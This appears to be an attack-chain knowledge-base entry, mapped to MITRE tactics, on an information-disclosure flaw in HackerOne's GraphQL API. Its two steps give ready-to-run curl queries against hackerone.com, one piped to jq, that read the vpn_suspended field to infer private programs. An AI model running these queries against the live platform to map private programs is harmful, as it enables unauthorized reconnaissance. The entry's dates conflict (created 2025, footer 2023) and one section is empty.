

---
tags:
  - information-disclosure
  - graphql
  - api
  - hackerone
type: attack_chain
tools: []
tactics:
  - '[[Reconnaissance]]'
  - '[[Discovery]]'
commands:
  - '[[commands/graphql-team-mini-profile-query]]'
platforms:
  - Web
complexity: low
procedures:
  - '[[procedures/Query-GraphQL-Team-Profile-for-vpn_suspended]]'
  - '[[procedures/Analyze-vpn_suspended-Status-to-Infer-Private-Programs]]'
step_count: 2
techniques:
  - '[[Exploit Public-Facing Application]]'
  - '[[Gather Victim Host Information]]'
description: >-
  Multi-stage attack exploiting an information disclosure vulnerability in
  HackerOne's GraphQL API to identify external programs hosting private programs
  by querying the vpn_suspended field.
skill_level: intermediate
impact_level: medium
id: cb1ebe7e-dc72-4c8c-9527-7d9be802daee
created_at: '2025-12-14T17:26:00.206Z'
updated_at: '2025-12-14T17:26:00.206Z'
verified: false
validated: true
submitted: true
mitre_tactics:
  - '[[Reconnaissance]]'
  - '[[Discovery]]'
mitre_techniques:
  - '[[Exploit Public-Facing Application]]'
  - '[[Gather Victim Host Information]]'
---
# Private Program Disclosure via HackerOne GraphQL vpn_suspended Field

Multi-stage attack chain demonstrating a complete attack workflow exploiting an information disclosure in HackerOne's GraphQL API.

## Chain Metrics Dashboard

| Metric | Value |
|--------|-------|
| Chain Status | Unverified |
| Total Steps | 2 |
| Execution Time | ~1 minutes |
| Skill Level | Intermediate |
| Complexity | Low |
| Impact Level | Medium |

## Attack Flow Visualization



## Prerequisites & Requirements

### Required Tools

- HTTP client (e.g., curl)

### Target Environment

- Web platform
- HackerOne GraphQL API at /graphql endpoint
- Known team handle for external programs

### Initial Access Requirements

- Public access to HackerOne API (no authentication required for this query)
- Network access to hackerone.com
- No prior credentials needed

## Detailed Attack Procedures

### Step 1: Query GraphQL Team Profile
procedure: [[procedures/Query-GraphQL-Team-Profile-for-vpn_suspended]]

**Objective**: Retrieve the team profile including the vpn_suspended field for a specified external program handle to check its status.

**Instructions**: Use [[commands/graphql-team-mini-profile-query]] to send a POST request to the /graphql endpoint with the crafted query:

```bash
curl -X POST 'https://hackerone.com/graphql' \
  -H 'Content-Type: application/json' \
  -d '{"query":"query Team_mini_profile($handle_0:String!,$size_1:ProfilePictureSizes!) {team(handle:$handle_0) {id,...F0}} fragment F0 on Team {id,name,about,_profile_picturePkPpF:profile_picture(size:$size_1),offers_swag,offers_bounties,vpn_enabled,vpn_suspended,base_bounty}","variables":{"handle_0":"example-handle","size_1":"small"}}'
```

**Expected Output**: JSON response containing the team data, including "vpn_suspended": true or false.

**Success Indicators**:
- Response includes vpn_suspended field without errors
- Team details retrieved successfully

### Step 2: Analyze vpn_suspended Status
procedure: [[procedures/Analyze-vpn_suspended-Status-to-Infer-Private-Programs]]

**Objective**: Interpret the vpn_suspended value to determine if the external program hosts private features, as false indicates VPN enablement exclusive to private programs.

**Instructions**: Review the JSON response from the previous query for the vpn_suspended value. If false, it suggests the program has private features enabled (VPN active), unlike sandboxed programs where VPN is absent.

For automation, parse the output using jq:

```bash
curl -X POST 'https://hackerone.com/graphql' \
  -H 'Content-Type: application/json' \
  -d '{"query":"query Team_mini_profile($handle_0:String!,$size_1:ProfilePictureSizes!) {team(handle:$handle_0) {id,...F0}} fragment F0 on Team {id,name,about,_profile_picturePkPpF:profile_picture(size:$size_1),offers_swag,offers_bounties,vpn_enabled,vpn_suspended,base_bounty}","variables":{"handle_0":"example-handle","size_1":"small"}}' | jq '.data.team.vpn_suspended'
```

**Expected Output**: Boolean value (true/false) for vpn_suspended.

**Success Indicators**:
- vpn_suspended is false, indicating potential private program hosting
- Ability to query multiple handles to map private programs

## Attack Chain Summary

### Key Achievements

1. Exposed vpn_suspended field without authorization checks
2. Identified external programs with private features via VPN status inference
3. Demonstrated API misconfiguration in GraphQL schema

## Technique & Tactic Coverage

### MITRE ATT&CK Techniques

- [[Exploit Public-Facing Application]]
- [[Gather Victim Host Information]]

### MITRE ATT&CK Tactics

- [[Reconnaissance]]
- [[Discovery]]

---
*Last updated: 2023-10-01*
